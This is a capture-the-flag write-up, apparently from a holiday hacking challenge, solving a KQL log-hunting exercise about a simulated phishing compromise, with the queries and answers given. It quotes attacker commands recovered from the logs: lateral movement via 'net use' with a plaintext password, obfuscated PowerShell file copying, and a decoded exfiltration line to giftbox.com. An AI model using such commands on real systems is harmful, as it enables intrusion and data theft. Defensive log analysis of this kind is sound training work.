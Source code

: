 # Objective 13: KQL Kraken Hunt
**Location: Film Noir Island: Gumshoe Alley PI Office**  
**Hints provided by Tangle Coalbox**

The aim of this objective is to get familiar with the Kusto platform and the KQL language, which is in total similar to Splunk.

### Onboarding:  
How many Craftperson Elf’s are working from laptops?

`Employees | where role=="Craftsperson Elf" | where hostname contains "LAPTOP"`

**25**

### Case 1:  
What is the email address of the employee who received this phishing email?

OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | join (Employees) on $left.src_ip==$right.ip_addr | project email_addr

alabaster_snowball@santaworkshopgeeseislands.org

  

  

What is the email address that was used to send this spear phishing email?

Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project sender

cwombley@gmail.com

  

  

  

What was the subject line used in the spear phishing email?

Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project subject

[EXTERNAL] Invoice foir reindeer food past due

  

### Case 2:

What is the role of our victim in the organization?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project role

Head Elf

  

What is the hostname of the victim's machine?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname

Y1US-DESKTOP

  

What is the source IP linked to the victim?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project ip_addr

10.10.0.4

  

### Case 3:

What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project timestamp`

**2023-12-02T10:12:42Z**

  

What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join FileCreationEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project filename`

**giftwrap.exe**

  

  

### Case 4:  
The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project process_commandline`

**113.37.9.17**

  

What is the timestamp when the attackers enumerated network shares on the machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project timestamp,process_commandline`

**2023-12-02T16:51:44Z** → `net share` command

  

What was the hostname of the system the attacker moved laterally to?

**NorthPolefileshare**  → `"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123)` command

  

### Case 5:

  

When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

**2023-12-24T16:07:47Z**

  

What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

The command executed at the above timestamp is:

`( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''`

The filename has to be reversed using `echo txt.tsiLeciNythguaN | rev`

**NaughtyNiceList.txt**

  

The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

The activity was performed at 2023-12-24T16:58:43Z.
Base64 decoding leads to:  
`[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*Mdr*').NamE[3,11,2]-joiN`

This is the decimal representation of the ASCII string `downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file`

**giftbox.com**
  

  

### Case 6:

What is the name of the executable the attackers used in the final malicious command?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

The activity can be found at 2023-12-25T10:44:27Z.

**downwithsanta.exe**

  

What was the command line flag used alongside this executable?

**--wipeall**

  

  

→

`print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')`

Beware the Cube that Wombles

**Achievement: KQL Kraken Hunt**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTMzMjI0MjA3OSwtMjAxMDE5MjYzXX0=
-->